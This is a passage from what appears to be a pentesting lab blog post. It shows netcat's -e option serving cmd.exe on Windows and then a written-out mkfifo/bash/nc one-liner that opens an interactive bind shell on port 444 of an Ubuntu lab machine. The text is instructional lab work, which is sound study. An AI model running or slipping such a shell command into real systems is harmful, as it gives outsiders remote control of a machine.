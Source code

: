On my windows machine I run the follow, by using the **-e** option I enable other clients to execute my **cmd.exe**:

![PENTEST Post](/assets/images/PENTEST/netcatonwindows.png)
**Figure 61** Netcat on windows machine.

In my machine, which is ubuntu, I run the following command to execute the remote windows machine cmd, as you can see I can run the **ipconfig** which is suitable only on windows which this mean that I actually successfully execute the cmd binary program on my windows machine.

![PENTEST Post](/assets/images/PENTEST/nctowin.png)
**Figure 62** Execute ipconfig on the remote machine.

Now,let's try it on my other lab, I want to run executable command on my ubuntu, and trying to establish connection from Kali linux to my ubuntu. In that case I want to show you guys that the command are different because I have no **-e** option in my netcat on my ubuntu, and yet it is possible to run the netcat to execute some binary on linux machine.

```
mkfifo fifofile
cat < /home/fifofile | /bin/bash -i 2>&1 | nc -vlp 444 > /home/fifofile
```

mkfifo command create a fifo file which stand for **First In First Out**, with the cat we use out fifofile and everything that goes into the file will spill into the cat command. On the sentence we build here we run bash as interactive which means that we going to create dialog between bash and our other command in our case we pipe it and use the bash to run everything that our cat have which going to be our fifofile, the redirect here use for redirect the error and output. in the third command which is the nc, we listening to port 444 and redirect the ouput to the same fifo file.

Now let's demonstrate what will actually append when we will run that command our local linux machine and will try to connect it from other machine, in my case I using Kali and I run the following command.
